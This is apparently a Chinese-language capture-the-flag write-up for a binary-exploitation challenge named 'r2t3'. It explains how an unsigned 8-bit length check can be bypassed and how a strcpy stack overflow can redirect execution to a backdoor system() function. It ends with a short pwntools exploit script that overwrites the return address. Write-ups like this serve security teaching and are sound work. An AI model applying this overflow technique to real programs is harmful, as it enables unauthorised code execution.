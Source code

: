 首先检查安全机制

![image-20201101105215030](https://static.hack1s.fun/images/2021/02/06/image-20201101105215030.png)

开启了NX；

运行一下，发现是一个需要输入用户名



查找对system函数的调用，可以发现存在一个后门函数dl_registery

![image-20201101105611971](https://static.hack1s.fun/images/2021/02/06/image-20201101105611971.png)

main函数中对输入的name做了一个检查

![image-20201101105649086](https://static.hack1s.fun/images/2021/02/06/image-20201101105649086.png)

这里的name_check应该是一个长度检查的函数

![image-20201101105733721](https://static.hack1s.fun/images/2021/02/06/image-20201101105733721.png)

按说输入的name长度在4-8之间就可以通过，但是试了之后发现并不可以；

主要原因在于这个检查是和unsigned int比较的；

所以实际上这里输入的数字很大时可以绕过，因为v3是一个unsigned int8，所以最大255

这里要求4-8，所以可以用长度在255+4-255+8之间绕过，这样最低的8位是满足要求的



最后看返回的地方，是将可控的缓冲区s用strcpy复制到了dest这个地方；

这里距离堆栈还有0x11的距离，之后加上ebp的4个字节，一共需要填充0x15字节

```python
from pwn import *

io = process('./r2t3')

io.recvuntil('name:\n')

payload = 'a'*0x11 + 'b'*4
payload = payload + p32(0x0804858b)
payload = payload + (255+5-len(payload))*'c'

io.sendline(payload)
io.interactive()
```

